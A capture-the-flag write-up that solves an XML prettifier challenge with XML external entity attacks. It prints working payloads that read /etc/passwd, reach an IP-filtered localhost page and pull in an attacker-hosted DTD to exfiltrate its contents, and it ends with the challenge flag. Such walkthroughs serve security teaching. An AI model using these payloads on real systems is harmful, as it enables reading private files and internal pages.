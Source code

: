 # XML Prettifier (4)

Hi, packet inspector,

some former employe of Mysterious Delivery Ltd. has created prettifier for XML code. It is polite to provide information to the AI in nicely formatted XML, isn't it? Rumors say that the employee also left some crucial information somewhere on the web.

Find the crucial information on webpage [http://prettifier.mysterious-delivery.tcc:50000](http://prettifier.mysterious-delivery.tcc:50000).

May the Packet be with you!

## Hints

- Use VPN to get access to the web.

## Solution

After visiting the page we can see that there are 2 paths, [/prettier](http://prettifier.mysterious-delivery.tcc:50000/prettier) and [/notes](http://prettifier.mysterious-delivery.tcc:50000/notes).

![prettier](prettier.png)

> **Forbidden**, IP filter is active, content is accessible only from localhost.

I guess we probably need to get content from [/notes](http://prettifier.mysterious-delivery.tcc:50000/notes) if we want the flag.

![notes](notes-forbidden.png)

### Trying XXE attack

Let's see what this XML prettier can do.

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<element>&xxe;</element>
```

![etc/passwd](etc-passwd.gif)

Getting `/etc/passwd` is possible, but it is useless for us. What about the [/notes](http://prettifier.mysterious-delivery.tcc:50000/notes) page?

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://localhost:50000/notes"> ]>
<element>&xxe;</element>
```

![notes fail](notes-fail.gif)

We ran into parsing errors. But we can solve this problem, [this page](https://dzone.com/articles/xml-external-entity-xxe-limitations) helped me a lot to understand how to solve it.

First, we have to make [.dtd file](attack.dtd):

```dtd
<!ENTITY % file SYSTEM "http://localhost:50000/notes">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

![dtd file](file-for-attack.png)

Second, we have to make an http server in our directory with [.dtd file](attack.dtd).

```
> python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now we're going to try it again, just replace `http://localhost:50000/notes` with our server.

![notes success](notes-success.gif)

`FLAG{GG53-5U3w-VT8F-qB31}`
